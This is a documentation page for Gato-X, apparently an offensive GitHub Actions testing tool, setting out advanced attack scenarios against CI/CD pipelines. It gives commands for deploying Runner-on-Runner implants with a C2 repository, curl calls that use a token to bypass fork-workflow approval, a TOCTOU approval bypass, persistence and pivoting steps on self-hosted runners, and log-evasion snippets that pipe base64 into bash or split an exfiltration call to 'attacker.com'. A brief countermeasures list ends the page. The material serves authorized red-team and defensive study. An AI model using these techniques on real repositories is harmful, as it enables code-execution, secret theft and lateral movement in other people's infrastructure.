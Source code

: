 # Complex Attack Scenarios

This page describes advanced attack techniques and scenarios that Gato-X can help execute or defend against.

> **Warning**: These techniques should only be used with proper authorization and for ethical security research purposes.

## Chaining Multiple Vulnerabilities

Many real-world attacks involve chaining multiple vulnerabilities together to achieve the ultimate objective.

### Example: From PR Comment to Self-Hosted Runner

1. **Initial Access**: Exploit an Actions Injection vulnerability in a workflow triggered by issue comments
2. **Privilege Escalation**: Use the injected code to modify workflow files in the repository
3. **Persistence**: Deploy a Runner-on-Runner implant on a self-hosted runner
4. **Lateral Movement**: Use the compromised runner to access other systems on the network

## Custom Runner-on-Runner (RoR) Deployment

Gato-X supports deploying RoR through various methods beyond the standard fork pull request approach.

### Using Custom Workflow via Push Trigger

If you have write access to a repository that uses self-hosted runners:

```bash
gato-x a --workflow --target ORG/REPO --custom-file custom_ror_workflow.yml
```

Where `custom_ror_workflow.yml` contains a workflow that deploys the RoR implant.

### Using Workflow Dispatch with Limited Permissions

If you have a PAT with only the `repo` scope:

1. Generate the RoR payload:
   ```bash
   gato-x a --payload-only --target-os linux --target-arch x64 --c2-repo MyOrg/C2Repo
   ```

2. Create a repository with a workflow that uses the payload

3. Trigger the workflow:
   ```bash
   curl -X POST -H "Authorization: token $GH_TOKEN" \
     -H "Accept: application/vnd.github.v3+json" \
     https://api.github.com/repos/MyOrg/MyRepo/actions/workflows/deploy_ror.yml/dispatches \
     -d '{"ref":"main"}'
   ```

## Bypassing Approval Requirements

In some cases, you may be able to bypass approval requirements for workflows from forks.

### Using a PAT with the `repo` Scope

If you have a PAT with the `repo` scope for a repository:

1. Fork the repository
2. Create a malicious workflow in your fork
3. Submit a pull request
4. Use the PAT to approve the workflow run:
   ```bash
   curl -X POST -H "Authorization: token $GH_TOKEN" \
     -H "Accept: application/vnd.github.v3+json" \
     https://api.github.com/repos/TargetOrg/TargetRepo/actions/runs/12345/approve
   ```

### Exploiting TOCTOU in Approval Workflows

Some approval workflows may be vulnerable to TOCTOU attacks:

1. Submit a benign pull request
2. Wait for approval
3. After approval but before execution, modify the pull request to include malicious code
4. The approved workflow will run the modified code

### Pivoting via GitHub Actions Cache Poisoning



## Advanced Self-Hosted Runner Attacks

### Targeting Specific Runner Labels

If you know that certain runners have specific capabilities or access:

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os linux --target-arch x64 --labels production database
```

This targets runners with both the "production" and "database" labels.

### Persistent Access to Ephemeral Runners

For ephemeral runners that are destroyed after each job:

1. Deploy the RoR implant with the `--keep-alive` flag
2. Use the implant to establish persistence through other means:
   - Create cron jobs
   - Modify startup scripts
   - Deploy additional backdoors

### Network Pivoting

Once you have access to a self-hosted runner, you can use it to pivot to other systems:

1. Use the interactive shell to perform network reconnaissance
2. Deploy network tunneling tools
3. Access internal services not exposed to the internet

## Defense Evasion Techniques

### Avoiding Detection in Logs

1. Use base64 encoding for commands:
   ```yaml
   run: echo "ZWNobyAiaGVsbG8gd29ybGQi" | base64 -d | bash
   ```

2. Split malicious commands across multiple steps

3. Use environment variables to store parts of commands:
   ```yaml
   env:
     CMD_PART1: "curl -s"
     CMD_PART2: "http://attacker.com/exfil"
   run: $CMD_PART1 $CMD_PART2
   ```

### Hiding Malicious Workflows

1. Use non-obvious file names for workflows
2. Place workflows in nested directories
3. Use workflow files that appear benign but contain hidden malicious code

## Countermeasures

To defend against these advanced attacks:

1. Implement strict branch protection rules
2. Require approval for all workflows from forks
3. Use ephemeral runners in isolated environments
4. Implement network segmentation for runners
5. Monitor workflow runs for suspicious activity
6. Regularly audit workflow files and permissions
7. Use the principle of least privilege for all tokens and permissions

